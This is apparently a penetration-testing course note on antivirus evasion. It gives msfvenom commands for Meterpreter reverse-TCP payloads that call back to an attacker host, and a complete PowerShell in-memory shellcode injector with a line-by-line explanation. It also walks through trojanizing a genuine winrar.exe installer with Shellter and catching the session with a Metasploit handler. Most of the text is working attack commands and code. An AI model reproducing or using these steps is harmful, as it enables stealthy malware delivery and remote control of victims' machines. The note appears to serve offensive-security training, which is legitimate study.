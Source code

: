 

Originally designed to remove viruses, AV's typically include firewalls, site scanners, etc.  
  
[https://cloudblogs.microsoft.com/microsoftsecure/2018/03/01/finfisher-exposed-a-researchers-tale-of-defeating-traps-tricks-and-complex-virtual-machines/](https://cloudblogs.microsoft.com/microsoftsecure/2018/03/01/finfisher-exposed-a-researchers-tale-of-defeating-traps-tricks-and-complex-virtual-machines/)  
  
  
Test Setup:  
  
- Create a Meterpreter payload:  
```bash
msfvenom -p windows/meterpreter/reverse_tcp LHOST=<attacker_ip> LPORT=<port> -f exe > binary.exe
```

- Upload to VirusTotal:  
	** Convenient but it generates a hash for each unique submission, which is then shared with all participating AV vendors.  
	  As such, take care when submitting sensitive payloads as the hash is essentially considered public from the time of first submission.

![[virus-total-bad.png]]

- Use **nc** OR
```bash
python3 -m http.server 80
```
	to upload to Windows client  
  
- Install Avira on Win client:
```powershell
 C:\Tools\antivirus_evasion\
```

- Turn _Real_-_Time Protection_ on  
  
- Attempt to run _**binary.exe**_
	![[avira-alert.png]]

AV evasion falls into two broad categories: [on-disk](On-Disk.md) and [in-memory](In-Memory.md).
  
Given the maturity of AV file scanning, modern malware often attempts **in-memory** operation, avoiding the disk entirely and therefore reducing the possibility of being detected.  



### PowerShell In-Memory Injection:

Will use a technique similar to Remote Process Memory Injection.  
Main difference - we'll target the currently executing process: PowerShell Interpreter.  
```powershell
$code = '  
[DllImport("kernel32.dll")]  
public static extern IntPtr VirtualAlloc(IntPtr lpAddress, uint dwSize, uint flAllocationType, uint flProtect);  
  
[DllImport("kernel32.dll")]  
public static extern IntPtr CreateThread(IntPtr lpThreadAttributes, uint dwStackSize, IntPtr lpStartAddress, IntPtr lpParameter, uint dwCreationFlags, IntPtr lpThreadId);  
  
[DllImport("msvcrt.dll")]  
public static extern IntPtr memset(IntPtr dest, uint src, uint count);';  
  
$winFunc =   
  Add-Type -memberDefinition $code -Name "Win32" -namespace Win32Functions -passthru;  
 
[Byte[]]$sc = <place your shellcode here>;  
  
$size = 0x1000;  
  
if ($sc.Length -gt 0x1000) {$size = $sc.Length};  
  
$x = $winFunc::VirtualAlloc(0,$size,0x3000,0x40);  
  
for ($i=0;$i -le ($sc.Length-1);$i++) {$winFunc::memset([IntPtr]($x.ToInt32()+$i), $sc[$i], 1)};  
  
$winFunc::CreateThread(0,0,$x,0,0,0);for (;;) { Start-sleep 60 };
```
.
- Imports _VirtualAlloc_ from _kernel32.dll_  
	- (to allocate memory - Lines 2 - 3)  
- Imports _CreateThread_ from _kernel32.dll_  
	- (create an execution thread - Lines 5 - 6)  
- Imports _memset_ from _msvcrt.dll_  
	- (write arbitrary data to the allocated memory - Lines 8 - 9)  
- Allocates a block of memory using _VirtualAlloc_  
	- (Lines 14 & 19 - 21)  
- Takes each byte of the payload stored in the _$sc_ byte array & Writes it to our newly allocated memory block using _memset_
	- (Lines 15 & 23)  
- Execute in separate thread  
	- (Line 25)  
  
Payload (meterpreter) creation:  
```bash
msfvenom -p windows/meterpreter/reverse_tcp LHOST=<attacker_ip> LPORT=<port> -f powershell
```


In order to get it to run, you need to be mindful of the user's [Execution Policy](Execution%20Policy.md).  
  
  
From [Exercise #6:](17%20-%20AV%20Evasion.md#17.3.5.6) 
  
Although the PowerShell AV bypass we covered in this module is substantial, it has an inherent limitation:  
The malicious script cannot be "double-clicked" by the user for an immediate execution. Instead, it would open in **notepad.exe** or another default text editor.  
  
The tradecraft of manually weaponizing PowerShell scripts is beyond the scope of this module, but we can rely on another open-source framework to help us automate this process.  
Research how to install and use the [Veil](https://github.com/Veil-Framework/Veil) framework to help  

  
  
### Shellter:

[Shellter](Shellter.md) is a dynamic shellcode injector which can bypass AVs.  
  
We'll run in Auto mode for this example:  

Download 32-bit version of **winrar.exe** from [https://www.rarlab.com/download.htm](https://www.rarlab.com/download.htm) onto Kali  
  
In Shellter:  
- Select a Target PE (full/path/**winrar.exe**)  
- Choose Stealth Mode - Y  
- Choose Payload - Meterpreter Reverse TCP  
- Set Meterpreter Options - LHOST & LPORT  
  
In Kali:  
- Start a Meterpreter listener to catch the conn:  
```bash
msfconsole -x "use exploit/multi/handler; set LHOST <attacker_ip>; set LPORT <port>; set PAYLOAD windows/meterpreter/reverse_tcp"
```

Transfer file to compromised Win machine.  
  
*****NOTE:** As it stands, the successful Meterpreter session will close out once the installer is either finished running OR is cancelled.  
  
Add an _AutoRunScript_ to migrate Meterpreter to a separate process immediately after session creation:  
```bash
set AutoRunScript post/windows/manage/migrate
```

Run compromised binary